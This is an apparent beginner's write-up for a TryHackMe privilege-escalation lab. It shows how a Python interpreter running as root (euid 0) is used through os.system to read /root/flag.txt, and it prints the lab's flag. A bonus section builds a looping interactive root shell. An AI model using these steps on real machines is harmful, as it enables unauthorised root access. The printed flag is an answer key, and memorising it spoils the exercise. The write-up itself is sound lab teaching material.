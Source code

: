 # Linux Privesc Playground - Try Hack Me - https://tryhackme.com/room/privescplayground
 
# This is my first Write-up but a simple one to preform.


# lets get in the machine and open python 
SSH Credentials - user:password

so there is a "trick" to gain an easy shell with the help of python
first we have to see if python has root premonition so we could exploit it
 
$ python
'''
Python 3.8.3.................... blablablablabla
'''

great! we got python installed, lets continue.

now we are in the python interactive shell, this is sort of a testing ground for coders.
but for us, its just a convenient way to get a shell.

we only need to init one library for OS commands
> import os

now, lets see if we are root. (euid = 0:root)

> geteuid()
'''
0
'''

Grate! python user has root privileges! lets use that ofc...
the syntax should look like this 

> os.system("whoami")
'''
root
0
'''

note you can press the arrow-key-up button to toggle previous commands exactly like a regular shell

to get the flag we will do the following

> os.system("cat /root/flag.txt")
'''
THM{3asy_f14g_1m40}
'''
 
# -------------------------------------------------------------------------------
# bonus:

do you want to make your life easyer? (that's what python ment for)
 
>>> def A(i):
...     os.system(i)
press return key (enter)


now all we need to do is A("YOUR COMMAND GOES HERE")

A('whoami')
'''
root
0
'''

# Even better:

while True:
	i = input('CMD: ')
	os.system(i)
press return key (enter)

'''
CMD: 
'''
now we got ourself a loop and created our-self an easy root shell!

Hye! if you done the bonus why not get in to a python course?